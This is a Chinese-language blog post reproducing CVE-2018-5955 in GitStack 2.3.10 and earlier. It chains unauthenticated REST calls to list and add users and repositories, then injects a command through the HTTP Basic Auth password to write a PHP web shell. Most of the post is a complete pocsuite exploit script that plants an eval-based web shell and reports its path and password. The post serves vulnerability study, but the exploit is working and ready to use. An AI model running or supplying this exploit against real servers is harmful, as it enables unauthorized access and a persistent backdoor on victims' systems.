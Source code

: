 ```yaml
---
layout: post
title:  "GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞（CVE-2018-5955）"
date:   2019-8-3 10:30:43
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```


## GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞

### 漏洞概述：

该漏洞时基于多个小漏洞实现的，大体过程如下：  

#### 用户相关 rest_user：

1.使用 GET 方式可以直接查看 GitStack 仓库的用户列表，存在未授权访问信息泄露漏洞   
直接访问http://ip/rest/user 即可获取gitstack库中的所有用户  

2.通过 POST 方法，指定 username 和 password 可以直接添加仓库用户，存在任意用户添加漏洞  

```
URL：http://ip/rest/user/
POST：username=test_username&password=test_passwd
```

#### project相关：

1.通过 POST 一个带有 CSRF_TOKEN的name 值即可创建一个以 name 值命名的project![创建project](/assets/img/posts/gitstack-1.png)

CSRF_TOKEN 存在于 http://ip/registration/login/?next=/gitstack/ 的源码中

![nihao](/assets/img/posts/gitstack-2.png)

2.任意 project 添加 user

只需要向 http://ip/rest/repository/ 传递 new__project 和 new_username 的值即可在名为 new_project 的项目中创建名为 new_username 的用户 

```bash
POST http://ip/rest/repository/new_projectname/user/new_username/
```

![任意 project 添加 user](/assets/img/posts/gitstack-3.png)

#### 命令执行（文件上传）：

通过 HTTP Basic Authentication 认证过程中的漏洞，发送如下请求即可实现命令执行，以上传文件为例子

```python
requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST['a']); ?>" > c:GitStackgitphpexploit.php'))
```

## EXP

该 EXP 使用 pocsuite 框架格式编写 

```python
#!/usr/bin/python2.7
# -*- coding: utf-8 -*-
from pocsuite.api.poc import register,Output, POCBase
from requests.auth import HTTPBasicAuth
import requests,urlparse,random,os,sys,hashlib,string


class TestPOC(POCBase):
    vulID = 'N/A'
    version = 'GitStack <= 2.3.10'
    author = 'co0ontty'
    vulDate = '2019-7-11'
    createDate = '2019-7-16'
    updateDate = '2018-3-31'
    references = ['https://xz.aliyun.com/t/2235']
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析'
    appPowerLink = 'https://gitstack.com'
    appName = 'GitStack'
    appVersion = 'GitStack <= 2.3.10'
    vulType = '文件上传'
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    '''
    samples = []
    install_requires = []

    def _attack(self):
        result = {}
        target = self.url
        hostname = urlparse.urlparse(target).hostname
        port = urlparse.urlparse(target).port
        if port is None:
            target = target+":80"
        repository = ''.join(random.sample(string.digits+string.ascii_letters,4))
        username = ''.join(random.sample(string.digits+string.ascii_letters,4))
        password = ''.join(random.sample(string.digits+string.ascii_letters,4))
        csrf_token = ''.join(random.sample(string.digits+string.ascii_letters,4))
        user_list = []
        r_getuser = requests.get("{}/rest/user/".format(target))
        try:
            user_list = r_getuser.json()
            user_list.remove('everyone')
        except:
            pass
        if len(user_list) > 0:
            username = user_list[0]
        else:
            r_create_user = requests.post("{}/rest/user/".format(target),data={'username' : username, 'password' : password})
        r_getrepo = requests.get("{}/rest/repository/".format(target))
        repository_list = r_getrepo.json()
        if len(repository_list) > 0:
            repository = repository_list[0]['name']
        r_post_csrftoken = requests.post("{}/rest/repository/".format(target), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
        r_create_user = requests.post("{}/rest/repository/{}/user/{}/".format(target, repository, username))
        r_del_user = requests.delete("{}/rest/repository/{}/user/{}/".format(target, repository, "everyone"))
        random_file_name = ''.join(random.sample(string.ascii_letters+string.digits,16))+".php"
        random_identify_code = ''.join(random.sample(string.ascii_letters+string.digits,35))
        random_shell_pass = ''.join(random.sample(string.ascii_letters+string.digits,5))
        webshell = 'p && echo " <?php @eval($_POST['+random_shell_pass+']);echo"'+random_identify_code+'";?>" > c:'
        r_create_file = requests.get('{}/web/index.php?p={}.git&a=summary'.format(target, repository), auth=HTTPBasicAuth(username, "{}".format(webshell)+random_file_name))
        test_url = target+"/web/"+random_file_name
        r_attack = requests.get(test_url)
        if (r_attack.status_code == 200):
            if (random_identify_code in r_attack.text):
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
                result['VerifyInfo']['ShellPath'] = test_url
                result['VerifyInfo']['ShellPasswd'] = random_shell_pass
            pass
        return self.parse_output(result)

    _verify = _attack

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)
```
